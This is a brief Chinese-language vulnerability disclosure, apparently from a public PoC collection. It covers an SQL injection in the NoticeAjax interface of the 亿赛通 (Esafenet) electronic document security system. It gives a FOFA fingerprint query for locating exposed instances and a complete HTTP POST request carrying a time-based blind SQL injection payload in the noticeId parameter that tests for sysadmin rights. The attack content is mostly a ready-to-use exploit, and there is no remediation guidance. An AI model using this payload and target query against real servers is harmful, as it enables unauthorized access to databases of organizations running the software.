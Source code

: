 # 亿赛通电子文档安全管理系统NoticeAjax接口存在SQL注入漏洞

亿某通电子文档安全管理系统` NoticeAjax`接口的`noticeId`参数处对传入的数据没有预编译和充足的校验，导致该接口存在SQL注入漏洞，恶意攻击者可能通过该漏洞获取服务器信息或者直接获取服务器权限

## fofa

```yaml
app="亿赛通-DLP"
```

## poc

```yaml
POST /CDGServer3/NoticeAjax;Service HTTP/1.1
Host: ip:8443
Cookie: JSESSIONID=A7058CC5796E5F433F2CC668C7B7B77D; JSESSIONID=0E09F2450421C51339E5657425612536
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="124", "Google Chrome";v="124", "Not-A.Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

command=delNotice&noticeId=123';if (select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--
```

![image-20240718165542392](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407181655455.png)